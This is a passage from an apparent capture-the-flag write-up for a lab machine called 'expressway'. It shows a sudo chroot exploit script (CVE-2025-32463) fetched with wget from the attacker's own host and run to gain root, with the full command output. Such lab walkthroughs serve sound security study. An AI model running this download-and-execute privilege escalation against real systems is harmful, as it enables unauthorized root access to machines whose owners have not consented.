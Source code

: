Got `root` and grab the `root.txt` flag.

Alternatively we can clone this script [sudo-chwoot.sh](https://github.com/pr0v3rbs/CVE-2025-32463_chwoot/blob/main/sudo-chwoot.sh) and then upload via `wget` from our kali to target machine and run it to get `root` access.

```bash
ike@expressway:/tmp$ wget 10.10.16.5/sudo-chwoot.sh
Prepended http:// to '10.10.16.5/sudo-chwoot.sh'
--2025-09-21 04:05:11--  http://10.10.16.5/sudo-chwoot.sh
Connecting to 10.10.16.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1046 (1.0K) [text/x-sh]
Saving to: ‘sudo-chwoot.sh’

sudo-chwoot.sh                                                                 100%[====================================================================================================================================================================================================>]   1.02K  --.-KB/s    in 0s      

2025-09-21 04:05:12 (59.5 MB/s) - ‘sudo-chwoot.sh’ saved [1046/1046]
```

```bash
ike@expressway:/tmp$ chmod +x sudo-chwoot.sh 
ike@expressway:/tmp$ ./sudo-chwoot.sh id
woot!
uid=0(root) gid=0(root) groups=0(root),13(proxy),1001(ike)
```

```bash
ike@expressway:/tmp$ ./sudo-chwoot.sh
woot!
root@expressway:/# id
uid=0(root) gid=0(root) groups=0(root),13(proxy),1001(ike)
```

Woot! :D

![result](/assets/img/expressway-htb-season9/result.png)